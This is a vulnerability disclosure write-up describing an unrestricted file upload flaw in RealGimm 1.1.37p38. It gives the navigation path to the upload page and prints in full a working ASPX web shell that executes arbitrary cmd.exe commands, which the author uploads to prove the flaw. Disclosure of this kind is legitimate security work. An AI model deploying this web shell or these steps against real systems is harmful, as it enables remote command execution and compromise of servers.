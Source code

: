 # CVE-ID | RealGimm by GruppoSCAI - Unrestricted File Upload
An unrestricted file upload vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
In order to reach the vulnerable webpage, select *Patrimonio* from the main menu, then *Comunicazione*, *Modelli Comunicazione* and finally click on *Ente* icon. Then, in the new screen that opens, click on the "Carica Immagine..." link.
![Path to page](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/172fd7f5-1fe4-47be-8ce0-03370c4fe774)
![Vulnerable page](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/efe1d73f-c161-4186-82e8-3a7c180f32a4)

So let's load an aspx webshell. Below the code:
```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```
![ASPX file upload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/18e8f543-f48e-47f2-bc9e-dfe735ac450d)


Below the intercepted request and response:
![Intercepted request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a611616-49e1-46bd-9f11-762428b2acb0)

Once the file has been uploaded, select it from those available and click on the green check to add it to the email body:
![Attaching file to email](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d58cf1ca-060e-4a07-9d7d-1fcfd87c8891)

Below the intercepted request and response used to attach the web shell to the email’s body:
![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b937394c-e3e0-4974-bd8a-69c0397deb9f)


As can be seen above, the malicious aspx web shell is present and available on the file system underlying the target web application, thus confirming the existence of the vulnerability.






